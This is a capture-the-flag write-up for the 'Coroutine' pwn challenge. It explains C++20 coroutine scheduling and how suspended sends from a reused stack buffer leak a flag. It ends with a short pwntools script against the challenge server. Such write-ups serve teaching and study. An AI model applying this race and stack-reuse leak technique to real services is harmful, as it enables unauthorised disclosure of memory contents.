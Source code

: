 # PWN/Coroutine

## Description

C++20 introduced coroutines, can they be used safely?
`nc coroutine.chal.idek.team 1337`


## Coroutine
This challenge is on C++ coroutines that are introduced in C++ 20. I suggest to read up on the [documentation](https://en.cppreference.com/w/cpp/language/coroutines) and get familiarize with coroutines before reading further.

In any case, here are the important points:
1. Coroutines are function that can be suspended and resume later.
2. Coroutines are stackless, obviously? cause the stack frame will be erase by other functions.
3. Information about the state of the coroutine is stored in a coroutine handler. I.E. local variables, parameters. Heap allocated local variables wtf -.-.
4. Coroutines are functions that contains the co_await, co_yield and co_return expression or implements `co_await` operator.
5. If we look at the disassembly of the compiled binary, any coroutine will have 3 functions under the same function symbol, which I am guessing is for `await_ready`, `await_resume` and `await_suspend` respectively.
6. Coroutines differ from threads: a program with coroutines execute sequentially and support multiple concurrent functions (by suspending and resuming coroutine functions), while a program spawning threads executes multiple parallel threads. In other words, a program with coroutines schedule its own execution of coroutines.

## Code analysis
Thankfully, source code is given. I will cover only the important functions, so lets drive right into it.

The main function is responsible for setting up everything. It first creates the `io_context` struct on the stack then pass the `io_context` to `server` function.

# io_context
In the `io_context` struct, there are 2 `vectors` (`reads_` and `writes_`) which holds our suspended coroutines. In the `run_until_done` function, it calls `load_flag`, then loops through `reads_` and `writes_` that are ready for IO and resume each coroutine.
It also contains some helper functions such as `add_write`, `add_read` and `cancel` to help modify the `reads_` and `writes_` coroutine vector. `io_context` is the 'scheduler' for the program.

# client_loop
In the `server` function, it initialize the sockets for the connection and listens for connections. It then calls `client_loop`, which is the main part of this challenge. 


Here we can see that it calls `RecvAsync` to receive input from us then calls `SendAllAsyncNewline` to echo it back to us. Hmmmm, why is the way receive and send being called differently? 


Lets take a look at the `RecvAsync` class first. The constructor of `RecvAsync` declared a co_await operator, which will make it a coroutine. Here we see 3 functions (`await_ready`, `await_suspend`, `await_resume`). `await_ready` is the first function to be called when co_await `RecvAsync` is called. If `await_ready` returns false, it will call `await_suspend`, else it will call `await_resume`. `await_resume` is also called when the coroutine is resumed externally by `io_context` for example. 

`await_ready` tries to recv from the socket, if successful, it will return true, else (no data have been entered through the proxy) it returns false and calls `await_suspend` which will store the coroutine handler to `io_context` (which then resumes the coroutine via `run_until_done`). In the challenge, `await_suspend` will always be called since it is very likely for the `recv` at `await_ready` to fail (it is unlikely for proxy.py to win the race since we are from a remote connection).

However, the same cannot be said for `SendAsync`. `SendAsync` has roughly the same code as `RecvAsync`, just switching `recv` to `send`. `await_suspend` in `SendAsync` is unlikely to be called since `send` is likely to be successful, unless ....., `proxy.py''s receive buffer is full, which we have control over.

Note that `SendAsync` is being called differently from `client_loop`. It first calls `SendAllAsyncNewline` which does not seems like a coroutine (see point 4 above), but it calls `SendAllAsync` which is a coroutine. It also allocates a `buffer2` which is on the stack, copy the content from `RecvAsync` to `buffer2`, and pass `buffer2` to `SendAllAsync` then to `SendAsync`.

What this means is that, `SendAsync` sends data from the stack and `RecvAsync` recv data to the heap (which is then copy to the stack in `SendAllAsyncNewLine`. Lets verify this is a debugger. 


On top of this, since `SendAllAsync` is called not as a coroutine in `SendAllAsyncNewline`, `SendAllAsyncNewline` ends up calling the `await_ready` function of `SendAllAsync`. This means `SendAllAsyncNewLine` could return to `client_loop` before the `send` was completed, through suspending `SendAsync`. This allows the next `RecvAsync` to be processed before the previous `send` finishes, and multiple send could be on hold at the same time if the `proxy.py` receive buffer is full. 

Now it become obvious, since data is sent from the stack, which is always at the same address, there is a possibility of data overwriting. We can make use of `RecvAsync` to set the buffer size of the current `SendAsync` (by sending a N length string from `proxy.py`), and make `SendAsync` suspend so we can call `RecvAsync` again. We repeat this again, to queue at least 2 `SendAsync` into the `writes_` vector in the `io_context`, there after we drain the `writes_` vector twice (by receiving data from `proxy.py`, thereby making send free again), the first time to print garbage since `RecvAsync` would have cleared the flag in the stack, the second time to call `load_flag` and print out the flag.

## Exploit Script

```
from pwn import *
import time
#context.log_level = 'debug'
p = remote("coroutine.chal.idek.team", 1337)

def conn():
    p.recvuntil(b"> ")
    p.sendline(b"1")

def set_rcv(size):
    p.recvuntil(b"> ")
    p.sendline(b"2")
    p.recvuntil(b"> ")
    p.sendline(str(size).encode('utf-8'))

def send_str(string):
    p.recvuntil(b"> ")
    p.sendline(b"4")
    p.recvuntil(b"> ")
    p.sendline(string)

def recv(size):
    #p.recvuntil(b"> ")
    p.sendline(b"5")
    #p.recvuntil(b"> ")
    p.sendline(str(size).encode('utf-8'))

set_rcv(8)
conn()

for i in range(8):
    send_str(b"A" * 512)
time.sleep(0.5)
recv(16000)
time.sleep(0.5)
recv(16000)
time.sleep(0.5)
recv(16000)
time.sleep(0.5)
recv(16000)
p.interactive()

```